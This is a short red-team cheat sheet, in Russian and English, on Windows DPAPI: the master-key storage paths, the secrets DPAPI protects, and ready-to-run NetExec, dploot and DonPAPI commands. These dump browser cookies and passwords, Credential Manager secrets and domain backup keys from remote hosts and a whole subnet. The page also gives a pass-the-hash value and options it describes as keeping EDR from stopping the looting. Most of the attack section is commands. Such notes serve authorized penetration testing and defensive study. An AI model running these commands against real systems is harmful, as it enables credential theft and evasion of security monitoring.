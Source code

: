 ```yaml
---
description: Data Protection API
---
```


# DPAPI

### Master keys

Пользовательский мастер-ключ хранится в профиле пользователя по следующему пути:\
`Users\%USER%\AppData\Roaming\Microsoft\Protect\%SID%\`

Системные мастер-ключи хранятся по следующему пути:\
`windows\system32\Microsoft\Protect\S-1-5-18\`

Аналогично с пользователем – используется один мастер-ключ, имя которого можно найти в файле Preferred, где хранятся все когда-либо используемые ключи.



### What Stored

DPAPI используется для шифрования закрытых ключей клиентских и системных сертификатов, WIFI ключей, Chrome (cookie, паролей), DropBox, Skype, RSA SecurID (софтварного приложения, которое генерирует одноразовые ключи) etc.



### Dump

You can dump DPAPI credentials using NetExec using the following option --dpapi. It will get all secrets from Credential Manager, Chrome, Edge, Firefox. --dpapi support options :

* cookies : Collect every cookies in browsers
* nosystem : Won't collect system credentials. This will prevent EDR from stopping you from looting passwords

You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account

```bash
nxc smb <ip> -u user -p password --dpapi
nxc smb <ip> -u user -p password --dpapi cookies
nxc smb <ip> -u user -p password --dpapi nosystem
```

### Domain postexploit

[Dump backup domain keys](https://github.com/zblurx/dploot) for decrypt secrets  dpapi:

```bash
dploot backupkey -u admin -hashes 86c65f3b745340e768249e4ff2732c32 -t dc-01.example.cpm
```

shoot [donpapi](https://github.com/login-securite/DonPAPI) with opsec flag

```bash
donpapi collect -d example.com -k -t 10.0.1.0/24 --no-remoteops --pvkfile ~/key.pvk
```
